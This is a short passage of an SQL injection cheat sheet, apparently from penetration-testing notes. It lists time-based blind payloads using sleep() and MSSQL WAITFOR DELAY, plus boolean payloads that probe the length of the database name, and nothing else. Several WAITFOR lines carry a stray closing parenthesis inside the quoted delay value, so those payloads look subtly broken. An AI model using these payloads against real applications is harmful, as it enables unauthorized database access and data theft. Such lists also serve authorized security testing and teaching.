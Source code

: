 ### Time-based

```bash
test' and sleep(5)-- - (Most databases)
test' and sleep(5)# (Most databases)
test;waitfor delay '0:0:5)'-- -  (MSSQL)
1');WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
test';WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
1;WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
```

### Boolean

Determine character length of database:

```bash
1' and length(database())=1#
1' and length(database())=2#
1' and length(database())=3#
```